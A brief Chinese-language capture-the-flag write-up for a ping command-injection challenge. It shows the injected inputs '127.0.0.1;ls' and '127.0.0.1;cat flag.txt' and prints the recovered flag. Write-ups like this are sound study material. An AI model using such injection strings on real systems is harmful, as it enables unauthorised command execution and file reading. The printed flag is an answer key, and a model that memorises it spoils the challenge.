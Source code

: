 输入`127.0.0.1;ls`，得到flag.txt在此目录

输入`127.0.0.1;cat flag.txt`，拿到flag

![ping](imgs/ping.png)

``` 
SSHCTF{98d22575-a26d-48b0-9452-549433760b64}
```

